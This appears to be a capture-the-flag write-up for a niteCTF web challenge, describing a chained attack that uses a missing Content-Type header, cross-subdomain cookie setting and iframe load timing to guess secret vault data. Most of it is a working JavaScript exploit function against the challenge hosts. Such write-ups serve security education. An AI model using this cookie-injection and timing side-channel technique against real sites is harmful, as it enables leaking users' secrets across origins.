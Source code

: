 ## JSAPI returns Solution

If you append a hash to the URL in a iframe, it does not navigate but it sends a load event. The solve requires chaining three things:

-   Figuring out that chall2 does not include Content-Type headers and the web browser will happily render HTML/CSS/JS code in the browser (see test.py)
-   Figuring out that you can set a cookie with a common root eTLD+1 and that will be picked up on another domain
-   A interesting browser behaviour, where you can use the speed of a load in a iframe to guess URLs (index.html demonstrates that attack)

```js
async function testForDestination(vaultData, expected) {
    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
    const iframe = document.createElement("iframe");
    if (vaultData.length > 0) {
        document.cookie = "vault-showing-previous-key=true; SameSite=Lax";
        document.cookie =
            "vault-previous-key-shown=" + vaultData + "; SameSite=Lax";
    }
    iframe.src = "http://chall1.nitectf.com";
    document.body.appendChild(iframe);
    await sleep(1000); // Wait for iframe to load
    iframe.contentWindow.postMessage(
        JSON.stringify({
            action: "FORGOT",
        }),
        "*"
    );
    await sleep(1000);
    const before = performance.now();
    let after = null;
    iframe.src =
        "http://chall1.nitectf.com/index.html?vaultData=" +
        vaultData +
        expected +
        "#1234";
    iframe.addEventListener("load", () => {
        after = performance.now();
    });
    await sleep(1000);
    const duration = after - before;
    console.log("Duration: " + duration);
    iframe.remove();
    if (duration < 5) {
        return true;
    } else {
        return false;
    }
}
```
